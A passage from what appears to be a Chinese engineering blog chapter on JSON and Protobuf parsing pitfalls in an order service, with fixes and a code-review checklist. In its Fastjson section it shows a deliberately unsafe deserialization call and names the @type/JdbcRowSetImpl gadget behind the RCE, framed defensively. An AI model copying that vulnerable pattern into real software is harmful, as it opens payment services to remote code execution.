订单服务里 30% 的 RT 花在 `readTree(...).get("xxx").get("yyy")` 上——本质是用 DOM 当 Streaming 用。

修复：核心字段用 POJO 一次性反序列化、稀疏字段才用 Tree。

**第 3 个坑：未知字段直接报错**

```java
// ❌ 默认配置
ObjectMapper m = new ObjectMapper();
// 上游加了新字段 promotionCode，老服务报错：
// UnrecognizedPropertyException: Unrecognized field "promotionCode"

// ✅ 修复
m.configure(DeserializationFeature.FAIL_ON_UNKNOWN_PROPERTIES, false);
```

教训：**向前兼容是序列化协议的第一原则**——Protobuf 天然兼容、JSON 必须配置兼容。

### 7.5 反射热点定位

**第 4 个坑：每次解析都重扫字段**

线上 jstack 抓到大量线程卡在：

```
java.lang.reflect.Field.getDeclaredFields
com.fasterxml.jackson.databind.introspect.AnnotatedClass.resolveMemberMethods
```

排查发现某团队**每次请求都 `new ObjectMapper()`**：

```java
// ❌ 每次创建
public Order parse(String json) {
    return new ObjectMapper().readValue(json, Order.class);  // 每次重扫
}

// ✅ 单例
private static final ObjectMapper MAPPER = new ObjectMapper();
```

`ObjectMapper` 线程安全且内部有类元数据缓存，**必须做单例**。修复后 RT 下降 40%。

### 7.6 大对象 OOM 与流式改造

**第 5 个坑：批量导出接口 OOM**

```java
// ❌ 一次性查 100 万订单序列化成 JSON
List<Order> orders = orderDao.queryAll();
String json = mapper.writeValueAsString(orders);  // OOM
response.getWriter().write(json);
```

修复用 Streaming + 数据库游标：

```java
// ✅ 流式写出
JsonGenerator g = factory.createGenerator(response.getOutputStream());
g.writeStartArray();
orderDao.streamAll(order -> {
    mapper.writeValue(g, order);  // 边查边写
});
g.writeEndArray();
g.close();
```

教训：**导出/批量接口默认走 Streaming**——这是 §2.3 决策树的硬规则。

### 7.7 Long 精度丢失

**第 6 个坑：订单 ID 在 H5 端被截断**（§3.4 炸弹 1）

订单 ID `1234567890123456789` 到了 H5 变成 `1234567890123456800`——尾部精度丢失。

```java
// 修复：Long 一律 String
@JsonSerialize(using = ToStringSerializer.class)
private Long orderId;
```

或全局配置：

```java
SimpleModule m = new SimpleModule();
m.addSerializer(Long.class, ToStringSerializer.instance);
m.addSerializer(Long.TYPE, ToStringSerializer.instance);
mapper.registerModule(m);
```

### 7.8 Fastjson AutoType RCE

**第 7 个坑：第三方回调接口被打 RCE**（§6.1）

支付回调用 Fastjson 1.2.47 解析：

```java
Object obj = JSON.parseObject(callback);  // 危险
```

攻击者构造 `@type` 字段触发 JdbcRowSetImpl，**整个支付节点失陷**。

修复三选一：

1. 升级 Fastjson 2.x + 关闭 AutoType
2. 切换 Jackson（必须传 `Class`）
3. 改用 Protobuf（无类型多态）

**根因**：反序列化协议永远不要让"数据决定类型"。

### 7.9 Protobuf 字段兼容

**第 8 个坑：服务端加字段，老客户端解析失败**

```protobuf
// 老版本
message Order {
  int64 order_id = 1;
}

// 新版本
message Order {
  int64 order_id = 1;
  string promotion_code = 2;  // 新字段
}
```

老客户端读到 tag=2 的字段——按 §4.4 wire type 跳过即可，不报错。**这就是 Protobuf 比 JSON 安全的本质优势**。

但有一个坑：**字段号不能复用**。

```protobuf
// ❌ 危险：把废弃字段直接删，新字段复用 = 2
message Order {
  int64 order_id = 1;
  // string old_field = 2;  ← 删掉
  int64 new_field = 2;  // ← 复用 → 老客户端发的字符串被当 int64 解析，数据错乱
}

// ✅ 正确：保留字段号
message Order {
  int64 order_id = 1;
  reserved 2;             // 永久占位
  int64 new_field = 3;
}
```

### 7.10 跨端读取差异

**第 9-11 个坑**：同一份 JSON 在不同语言里的"小不同"踩出大故障。

| 现象 | 语言 | 表现 | 修复 |
|---|---|---|---|
| 浮点 NaN | Python json | 输出 `NaN` 字符串，但 JS 解析报错 | 换 orjson 或自定义 default |
| 整数溢出 | Go encoding/json | `int64` 超过 `2^53` 在 JS 端截断 | 用 sonic + `string` tag |
| 空字段 | Java Jackson | `null` 字段也输出 | `@JsonInclude(NON_NULL)` |

```go
// sonic 用 tag 强制 Long 输出 string
type Order struct {
    OrderId int64 `json:"orderId,string"`  // 输出 "12345" 不是 12345
}
```

### 7.11 案例知识点回归

把 11 个故障对照本章 11 个知识点回收：



**一句话提炼**：

> **一个订单从 APP 到数仓的 11 个故障，串起了从解析模型（§2）到 JSON（§3）到 Protobuf（§4）到 XML 教训（§5）到跨语言陷阱（§6）的 100% 知识点。**

**给团队的 CR 检查清单**（建议直接拷贝进 code review 模板）：

- [ ] `ObjectMapper` / `sonic.API` / `JsonFactory` 必须单例
- [ ] 大于 10MB 的接口走 Streaming，不用 Tree/POJO 一次性加载
- [ ] `FAIL_ON_UNKNOWN_PROPERTIES = false`（向前兼容）
- [ ] `Long` 类型字段一律输出 String（精度安全）
- [ ] **禁用 Fastjson 1.x AutoType**，二选一升级 2.x 或换 Jackson
- [ ] Protobuf 字段号 **`reserved` 占位，永不复用**
- [ ] NaN/Infinity 必须显式处理（拒绝或转 null）
- [ ] 入口做"早夭"校验：体积、嵌套深度、数组长度上限
- [ ] 金额字段用 `BigDecimal`，配置 `USE_BIG_DECIMAL_FOR_FLOATS`
- [ ] XML 解析禁用 DTD / 外部实体（防 XXE 与 Billion Laughs）
- [ ] 高性能场景考虑 sonic / simdjson / orjson 替代默认库

---

## 8.一句话总结

### 8.1 三层认知阶梯

```
第一层（知其然）：会用 Jackson / encoding/json / orjson
  ↓
第二层（知其所以然）：理解流式/树形/反射/编译期四种模型的代价
  ↓
第三层（知其将所以然）：能在新场景（如 38MB 大对象、跨端 Long、二进制协议选型）中独立做出正确决策
```

读完本章后，你应该能回答开头 §1.2 的三个问题：

1. **为什么解析必须分四种模型？** → 因为"内存 / 时间 / 易用性 / 性能"四个维度无法同时最优。流式让位内存、树形让位时间、反射让位性能、编译期让位编译复杂度——**四个角的妥协**。
2. **为什么 simdjson 能快 24 倍？** → 不是一招神奇，是**编译期生成（消除反射）+ SIMD 并行扫描（消除分支）+ Arena 分配（消除 malloc）+ 缓存友好（无指针追逐）** 四件事叠加的结果。
3. **为什么 Fastjson 历史上爆 RCE 而 Jackson 没有？** → 因为 Fastjson 的 AutoType 让"数据决定类型"——反序列化的天条是 **永远不能让攻击者控制即将实例化的类**。这不是 bug，是设计选择的代价。

如果你能把这三个问题讲给同事听并让对方"恍然大悟"，那这一章已经吃透。

### 8.2 七字真言

> **"解析即逆码，模型定生死。"**

这条原则展开是七句话：

1. **解析是序列化的镜像**——上游怎么编码、下游就得怎么解码，**契约不能单边变更**。
2. **数据量决定模型**——10MB 是分水岭，过线必须流式。
3. **Schema 稳定走编译期**——sonic / Codable / kotlinx 是未来。
4. **反射框架默认开"兼容模式"**——`FAIL_ON_UNKNOWN_PROPERTIES = false` 是底线。
5. **Long 跨端必转 String**——JS 的 53 位精度是物理上限。
6. **反序列化永不让数据决定类型**——Fastjson AutoType 的血泪教训。
7. **Protobuf 字段号永不复用**——`reserved` 占位是协议演进的唯一安全姿势。

### 8.3 与下篇的承接

本篇我们解决了"字节流如何重塑成对象树"的问题，但还有一个更底层的问题没回答：**这些被解析出来的对象在 JVM/Go runtime 里到底是怎么躺在内存里的？为什么有的字段会"凭空消失"？类是怎么被加载、链接、初始化的？**

这就是下一卷的起点 [3.7 类的加载核心原理](https://blog.csdn.net/m0_37700275/article/details/161518459) 要回答的——**对象的生命起点：类加载、字段布局与初始化顺序**。

---

## 🔗 延伸阅读

- 同卷上篇：[1.8 序列化数据的思想](./08.序列化数据的思想.md) ｜[1.1 数据编码设计原理](./01.数据编码设计原理.md)
- 解析 → 类型：[1.4 字符串设计的灵魂](./04.字符串设计的灵魂.md) ｜[1.7 容器型数据设计原理](./07.容器型数据设计原理.md)
- 解析 → 运行时：[3.7 类的加载核心原理](../03.编程语言原理/07.类的加载核心原理.md)
- 解析 → 内存：[4.5 内存回收机制设计](../05.内存的真相/05.内存回收机制设计.md)
